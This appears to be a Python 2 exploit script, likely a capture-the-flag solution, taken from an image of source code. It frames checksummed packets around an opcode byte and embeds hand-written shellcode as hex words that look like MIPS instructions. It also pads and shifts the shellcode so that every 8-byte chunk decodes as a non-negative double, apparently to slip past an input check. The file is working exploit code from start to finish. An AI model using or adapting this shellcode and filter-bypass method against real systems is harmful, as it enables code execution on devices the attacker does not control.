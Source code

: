 ```python
def construct_packet(payload):
    assert len(payload) == 61
    tot = 0
    for i in payload:
        tot += ord(i)
    tot = tot & 0xff
    packet = "\xA5" + "Z" + payload + chr(0xff - tot) + "\xA5"
    return packet

def construct_payload(op, idx, data):
    data += "Z"*(59-len(data))
    return construct_packet(chr((op << 4) | idx) + "\x00" + data)

shellcode = """00 00 04 34
01 00 06 34
00 A3 07 34
00 3C 07 00
20 00 08 34
25 38 E8 00
00 00 E5 8C
FA FF A6 10
00 A2 01 34
00 0C 01 00
00 80 02 34
20 10 44 00
25 08 22 00
00 00 23 8C
04 00 E3 AC
08 00 E3 AC
00 00 E0 AC
04 00 84 20
EF FF 00 10
""".replace("\n\n", "\n").split("\n")
# shellcode = ["FF FF 00 10", "00 00 00 00"]

def check_good(payload):
    if len(payload) % 8 != 0:
        payload += "\x00"*4
    for i in range(0, len(payload), 8):
        d = payload[i:i+8]
        val = struct.unpack("d", d)[0]
        print("VALUE", val, d)
        if val < 0.0:
            if struct.unpack("d", payload[i:i+4] + "\x00"*4) > 0.0:
                return payload[:i+4] + "\x00"*4 + payload[i+4:], False
            elif struct.unpack("d", "\x00"*4 + payload[i:i+4]) > 0.0:
                return "\x00"*4 + payload[:i+4] + payload[i+4:], False
            else:
                print("BAD F")
                exit()
    return payload, True

payload = ""
for i in shellcode:
    payload += i.replace(" ", "").decode("hex")

is_good = False
while not is_good:
    # print(is_good)
    payload, is_good = check_good(payload)

# print(payload.encode("hex"))
assert len(payload) <= 0x70
```